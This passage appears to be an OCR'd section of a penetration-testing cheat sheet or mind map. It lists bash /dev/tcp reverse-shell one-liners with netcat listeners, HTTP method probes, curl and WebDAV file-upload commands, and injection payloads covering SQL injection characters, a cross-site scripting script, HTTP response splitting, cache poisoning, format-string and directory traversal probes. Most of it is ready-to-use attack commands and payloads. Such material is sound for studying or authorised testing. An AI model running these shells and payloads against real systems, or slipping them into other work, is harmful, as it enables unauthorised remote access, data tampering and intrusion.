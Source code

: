                      ▪  GnuCitizen
                         ▪  Atttack Box: nc -l -p Port -vvv
                         ▪  Victim: $ exec 5<>/dev/tcp/IP_Address/Port Victim: $ cat <&5 | while read line; do $line 2>&5 >&5; done
                     ▪  Neohapsis
                         ▪  Atttack Box: nc -l -p Port -vvv
                         ▪  Victim: $ exec 0</dev/tcp/IP_Address/Port # First we copy our connection over stdin Victim: $ exec 1>&0 # Next we copy stdin to stdout Victim: $ exec 2>&0 # And finally stdin to stderr Victim: $ exec /bin/sh 0</dev/tcp/IP_Address/Port 1>&0 2>&0
             ▪  Method Testing
                 ▪  nc IP_Adress Port
                     ▪  HEAD / HTTP/1.0
                     ▪  OPTIONS / HTTP/1.0
                     ▪  PROPFIND / HTTP/1.0
                     ▪  TRACE / HTTP/1.1
                     ▪  PUT http://Target_URL/FILE_NAME
                     ▪  POST http://Target_URL/FILE_NAME HTTP/1.x
             ▪  Upload Files
                 ▪  curl
                     ▪  curl -u <username:password> -T file_to_upload <Target_URL>
                     ▪  curl -A "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" <Target_URL>
                 ▪  put.pl
                     ▪  put.pl -h target -r /remote_file_name -f local_file_name
                 ▪  webdav
                     ▪  cadaver
             ▪  View Page Source
                 ▪  Hidden Values
                 ▪  Developer Remarks
                 ▪  Extraneous Code
                 ▪  Passwords!
             ▪  Input Validation Checks```
                 ▪  NULL or null
                     ▪  Possible error messages returned.
                 ▪  ' , " , ; , <!
                     ▪  Breaks an SQL string or query; used for SQL, XPath and XML Injection tests.
                 ▪  – , = , + , "
                     ▪  Used to craft SQL Injection queries.
                 ▪  ‘ , &, ! , ¦ , < , >
                     ▪  Used to find command execution vulnerabilities.
                 ▪  "><script>alert(1)</script>
                     ▪  Basic Cross-Site Scripting Checks.
                 ▪  %0d%0a
                     ▪  Carriage Return (%0d) Line Feed (%0a)
                         ▪  HTTP Splitting
                             ▪  language=?foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2047%0d%0a%0d%0a<html>Insert undesireable content here</html>
                                 ▪  i.e. Content-Length= 0 HTTP/1.1 200 OK Content-Type=text/html Content-Length=47<html>blah</html>
                         ▪  Cache Poisoning
                             ▪  language=?foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20304%20Not%20Modified%0d%0aContent-Type:%20text/html%0d%0aLast-Modified:%20Mon,%2027%20Oct%202003%2014:50:18%20GMT%0d%0aContent-Length:%2047%0d%0a%0d%0a<html>Insert undesireable content here</html>
                 ▪  %7f , %ff
                     ▪  byte-length overflows; maximum 7- and 8-bit values.
                 ▪  -1, other
                     ▪  Integer and underflow vulnerabilities.
                 ▪  %n , %x , %s
                     ▪  Testing for format string vulnerabilities.
                 ▪  ../
                     ▪  Directory Traversal Vulnerabilities.
                 ▪  % , _, *
                     ▪  Wildcard characters can sometimes present DoS issues or information disclosure.
                 ▪  Ax1024+
                     ▪  Overflow vulnerabilities.```
             ▪  Automated table and column iteration